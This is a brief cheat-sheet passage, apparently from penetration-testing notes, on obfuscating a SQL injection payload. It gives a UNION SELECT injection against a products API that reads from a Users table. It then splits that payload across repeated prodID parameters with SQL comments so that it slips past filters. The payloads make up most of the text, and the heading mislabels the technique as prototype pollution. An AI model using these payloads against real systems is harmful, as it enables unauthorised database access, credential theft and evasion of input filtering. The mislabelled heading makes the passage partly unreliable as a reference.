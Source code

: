 # Obfuscation
## Prototype pollution

```
GET /api/products?prodID=9 UNION SELECT 1,2,3 FROM Users WHERE id=3 --
```

In those languages that append polluted parameters into a list (like Python), it is possible to obfuscate the payload above like this:

```
GET /api/products?prodID=9 /*&prodID=*/UNION /*&prodID=*/SELECT 1 &prodID=2 &prodID=3 FROM /*&prodID=*/Users /*&prodID=*/ WHERE id=3 --
```
